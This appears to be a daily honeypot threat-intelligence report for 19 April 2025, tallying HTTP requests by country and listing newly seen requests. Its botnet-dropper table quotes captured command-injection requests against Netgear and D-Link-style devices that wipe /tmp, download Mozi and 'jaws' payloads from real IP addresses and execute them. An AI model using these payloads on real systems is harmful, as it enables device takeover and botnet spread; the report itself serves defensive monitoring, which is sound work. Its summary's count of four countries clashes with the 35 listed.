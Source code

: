 ```yaml
---
title: "Report: 2025-04-19 "
date: 2025-04-19
desciption: "Report: 2025-04-19" 
tags: [repport, daily]
---
```



# Daily Report: 2025-04-19 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 25 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1522 requests were recorded during the day, originating from 4 different countries, with a peak of 256 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 221.15.21.58   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://221.15.21.58:59826/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 81.108.237.134 | GET /shell?cd+/tmp;rm+-rf+*;wget+31.58.51.98/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                     |
| 27.37.225.204  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                       |
| 5.232.197.153  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://2.181.231.51:53192/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 121 |                     1 | \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00         |
| 127 |                     1 | GET /LoTM HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 134 |                     1 | GET /nmaplowercheck1745061921 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 148 |                     1 | GET /NmapUpperCheck1745061921 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 152 |                     1 | GET /Nmap/folder/check1745061921 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| 163 |                     1 | GET /Shq0 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 175 |                     1 | GET /api/bin/440393?time=1745038592926894374 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 176 |                     1 | GET /config/index?time=1745036279894552763 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 177 |                     1 | POST /api/user/binLookup?time=1745035243131334900 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 178 |                     1 | GET /api/bin/440393?time=1745035242484225653 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 179 |                     1 | GET /config/index?time=1745034571326795697 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 223 |                     1 | \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 |
| 277 |                     1 | GET /BgJi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 283 |                     1 | POST /api/user/binLookup?time=1745042000504518878 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 284 |                     1 | GET /api/bin/440393?time=1745042000006159705 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 300 |                     1 | POST /api/user/binLookup?time=1745038834035574055 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 301 |                     1 | GET /api/bin/440393?time=1745038833652444934 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 304 |                     1 | GET /config/index?time=1745036375245076012 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 307 |                     1 | \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00     |
| 322 |                     1 | GET /config/index?time=1745038896988933583 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 324 |                     1 | POST /api/user/binLookup?time=1745036232541860845 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 325 |                     1 | GET /api/bin/440393?time=1745036232049909373 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 326 |                     1 | GET /config/index?time=1745035232450715863 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 333 |                     1 | GET /mtC8 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 336 |                     1 | GET /oM7i HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   256 | GB                 |
|  1 |                   220 | US                 |
|  2 |                   182 | SC                 |
|  3 |                   153 | DE                 |
|  4 |                   105 | NL                 |
|  5 |                    93 | HK                 |
|  6 |                    79 | SE                 |
|  7 |                    75 | CN                 |
|  8 |                    74 | PL                 |
|  9 |                    71 | LT                 |
| 10 |                    61 | CA                 |
| 11 |                    27 | JP                 |
| 12 |                    15 | ID                 |
| 13 |                    13 | KR                 |
| 14 |                    13 | SG                 |
| 15 |                    12 | BG                 |
| 16 |                    10 | VN                 |
| 17 |                     7 | FR                 |
| 18 |                     7 | UA                 |
| 19 |                     6 | IT                 |
| 20 |                     6 | BE                 |
| 21 |                     6 | RU                 |
| 22 |                     5 | IN                 |
| 23 |                     4 | GE                 |
| 24 |                     4 | AU                 |
| 25 |                     4 | TR                 |
| 26 |                     3 | AO                 |
| 27 |                     2 | AR                 |
| 28 |                     2 | AL                 |
| 29 |                     2 | TW                 |
| 30 |                     1 | MC                 |
| 31 |                     1 | IR                 |
| 32 |                     1 | TH                 |
| 33 |                     1 | DO                 |
| 34 |                     1 | PT                 |
